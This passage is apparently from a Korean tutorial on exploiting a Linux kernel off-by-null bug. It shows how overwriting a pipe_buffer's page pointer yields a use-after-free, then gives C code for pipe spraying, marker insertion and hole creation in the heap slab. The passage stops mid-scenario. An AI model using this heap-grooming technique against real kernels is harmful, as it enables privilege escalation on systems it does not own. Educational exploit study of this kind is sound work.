 이 구조체의 첫 필드(`page`)를 Off-by-Null로 덮어쓰면, 서로 다른 두 개의 pipe가 동일한 페이지를 참조하도록 할 수 있습니다. 즉, 한쪽 파이프가 해제되어도 나머지 한쪽에서 페이지를 계속 사용할 수 있는 **Use-After-Free(UAF)** 상황을 만들 수 있습니다.

- ex) 두 개의 객체가 있다고 가정합시다. 첫 번째 객체는 `page`가 0xffffea0000241180이고, 두 번째는 0xffffea00002411c0입니다. 첫 번째 객체에 0xc0 바이트를 쓰면 두 객체는 같은 페이지를 참조하게 됩니다. 이 중 하나가 해제되면 페이지도 해제되지만, 다른 객체를 통해 “use-after-free”가 가능해집니다.

---

## 📌 **Step 3: 공격 시나리오**

공격의 주요 흐름은 다음과 같습니다.

1. **파이프 스프레이(pipe spray)**
    - 다수의 파이프(128개)를 생성하고, 내부 버퍼 크기를 크게 확장하여 pipe_buffer 구조체를 힙 영역에 많이 할당합니다.
        
        ```c
        // 1. 파이프 생성
        for (int i = 0; i < PIPE_NUM; i++) {
            if (pipe(pipe_fd[i]) < 0)
                errExit("pipe() failed");
        }
        
        // 2. 각 파이프의 내부 버퍼 크기를 확장 (0x1000 * 64 = 256KB)
        for (int i = 0; i < PIPE_NUM; i++) {
            if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0)
                errExit("F_SETPIPE_SZ failed");
        }
        ```
        
2. **식별 데이터 삽입**
    - 각 파이프에 고유한 magic 값(`0xdeadbeef + i`)과 식별 문자열(`"KEYME!!!"`)을 기록하여 나중에 오염된 파이프를 탐색하기 쉽게 합니다.
        
        ```c
        // 3. 파이프에 식별 데이터 삽입:
        //    - 식별 문자열 ("KEYME!!!")와 고유 magic 값 (0xdeadbeef + i)
        
        for (int i = 0; i < PIPE_NUM; i++) {
            // 0x10의 배수 인덱스는 의도적으로 비워둬 나중에 hole로 사용합니다.
            if (i % 0x10 != 0) {
                memcpy(tmp, "KEYME!!!", 0x8);
                pipe_magic = 0xdeadbeef + i;
                write(pipe_fd[i][1], tmp, 0x8);
                write(pipe_fd[i][1], &pipe_magic, 0x8);
            }
        }
        ```
        
3. **Hole 생성**
    - 일부 파이프를 닫아 힙 슬랩에 hole(빈 공간)을 만듭니다.
        
        ```c
        // 4. 일정 간격(0x10 단위)으로 파이프를 닫아 hole 생성
        printf("[*] Creating holes in pipes...\n");
        for (int i = 0x10; i < PIPE_NUM; i += 0x10) {
            close(pipe_fd[i][0]);
            close(pipe_fd[i][1]);
        }
        ```
        